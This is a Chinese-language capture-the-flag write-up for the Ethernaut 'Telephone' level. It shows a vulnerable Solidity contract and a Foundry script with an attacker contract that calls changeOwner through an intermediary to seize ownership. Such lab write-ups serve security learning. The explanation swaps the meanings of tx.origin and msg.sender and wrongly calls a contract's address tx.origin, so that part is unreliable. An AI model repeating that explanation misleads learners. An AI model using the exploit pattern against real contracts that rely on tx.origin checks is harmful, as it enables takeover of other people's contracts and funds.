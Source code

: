 # Level 4 - Telephone
## 題目
[Telephone](https://ethernaut.openzeppelin.com/level/0x2C2307bb8824a0AbBf2CC7D76d8e63374D2f8446)

### 通關條件
取得下面合約的所有權，來完成這一關。
### 合約內容
```solidity=
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract Telephone {
    address public owner;

    constructor() {
        owner = msg.sender;
    }

    function changeOwner(address _owner) public {
        if (tx.origin != msg.sender) {
            owner = _owner;
        }
    }
}
```
## 解題
這題合約不長，可以看到只要通過 12 行的判斷，就可以將 owner 改為自己。
`tx.origin` 跟 `msg.sender` 都是全域變數（[上一題](https://hackmd.io/@D13/ethernaut3)提到過）。`tx.origin` 是呼叫合約的地址，`msg.sender` 是啟動交易的地址。
假設你建立 A 合約去呼叫 B 合約，並且 B 合約再去呼叫 C 合約，那對 C 合約來說，`tx.origin` 是 A 的地址，`msg.sender` 是 B 的地址。
如果覺得解釋的不清楚，可以參考以下文章：
- [[中文] WTF Solidity 合约安全: S12. tx.origin钓鱼攻击](https://github.com/AmazingAng/WTF-Solidity/blob/main/S12_TxOrigin/readme.md)
- [[EN] The difference between tx.origin and msg.sender in Solidity, and how it changes with account abstraction](https://medium.com/@natelapinski/the-difference-between-tx-origin-60737d3b3ab5)

要解開這題，只要寫一個 script 呼叫另一個合約，再透過另一個合約呼叫題目合約的 `changeOwner()` 就可以過關了，攻擊合約如下
```solidity
// SPDX-License-Identifier: UNLICENSED
pragma solidity ^0.8.0;

import "forge-std/Script.sol";
import "../src/Ethernaut Challenge/04_Telephone.sol";

contract ExploitScript is Script {

    function run() external {
        vm.startBroadcast();

        TelephoneAttacker attacker = new TelephoneAttacker(your_challenge_address);    
        attacker.attack(myAddress);

        vm.stopBroadcast();
    }
}

contract TelephoneAttacker {
    Telephone public level04;
    
    constructor(address _target) {
        level04 = Telephone(_target);
    }
    
    function attack(address _newOwner) public {
        level04.changeOwner(_newOwner);
    }
}
```